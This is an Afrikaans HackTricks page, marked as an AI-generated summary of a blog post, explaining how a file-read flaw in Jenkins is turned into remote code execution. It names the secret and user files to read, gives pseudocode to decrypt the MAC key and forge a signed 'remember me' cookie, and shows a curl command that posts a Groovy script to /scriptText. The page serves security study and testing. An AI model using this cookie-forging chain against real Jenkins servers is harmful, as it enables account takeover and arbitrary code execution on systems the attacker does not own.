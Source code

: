 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

In hierdie blogpos is dit moontlik om 'n wonderlike manier te vind om 'n Local File Inclusion kwesbaarheid in Jenkins in RCE te transformeer: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Dit is 'n AI-gegenereerde opsomming van die deel van die pos waar die vervaardiging van 'n arbitrêre koekie misbruik word om RCE te verkry deur 'n plaaslike lêer te lees totdat ek tyd het om 'n opsomming op my eie te skep:

### Aanval Vereistes

* **Kenmerk Vereiste:** "Onthou my" moet geaktiveer wees (standaard instelling).
* **Toegangsvlakke:** Aanvaller benodig Algemene/Lees regte.
* **Geheime Toegang:** Vermoë om beide binêre en teksinhoud van sleutel lêers te lees.

### Gedetailleerde Exploitasie Proses

#### Stap 1: Data Versameling

**Gebruiker Inligting Herwinning**

* Toegang tot gebruiker konfigurasie en geheime van `$JENKINS_HOME/users/*.xml` vir elke gebruiker om te versamel:
* **Gebruikersnaam**
* **Gebruiker saad**
* **Tydstempel**
* **Wagwoord hash**

**Geheime Sleutel Uittrekking**

* Trek kriptografiese sleutels uit wat gebruik word om die koekie te teken:
* **Geheime Sleutel:** `$JENKINS_HOME/secret.key`
* **Meester Sleutel:** `$JENKINS_HOME/secrets/master.key`
* **MAC Sleutel Lêer:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Stap 2: Koekie Vervalsing

**Token Voorbereiding**

*   **Bereken Token Vervaldatum:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Voeg een uur by die huidige tyd
```
{% endcode %}
*   **Konkateer Data vir Token:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**MAC Sleutel Ontsleuteling**

*   **Ontsleutel MAC Sleutel Lêer:**

```javascript
key = toAes128Key(masterKey)  // Convert meester sleutel na AES128 sleutel formaat
decrypted = AES.decrypt(macFile, key)  // Ontsleutel die .mac lêer
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Handtekening Berekening**

*   **Bereken HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey)  // Bereken HMAC met die token en MAC sleutel
tokenSignature = bytesToHexString(mac)  // Convert die MAC na 'n hexadesimale string
```

**Koekie Kodering**

*   **Genereer Finale Koekie:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Base64 kodeer die koekie data
```
{% endcode %}

#### Stap 3: Kode Uitvoering

**Sessie Verifikasie**

* **Haal CSRF en Sessie Tokens:**
* Maak 'n versoek na `/crumbIssuer/api/json` om `Jenkins-Crumb` te verkry.
* Vang `JSESSIONID` uit die antwoord, wat saam met die onthou-my koekie gebruik sal word.

**Opdrag Uitvoering Versoek**

*   **Stuur 'n POST Versoek met Groovy Skrip:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Groovy skrip kan gebruik word om stelselniveau opdragte of ander operasies binne die Jenkins omgewing uit te voer.

Die voorbeeld curl opdrag wat verskaf word demonstreer hoe om 'n versoek aan Jenkins te maak met die nodige koptekste en koekies om arbitrêre kode veilig uit te voer.

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
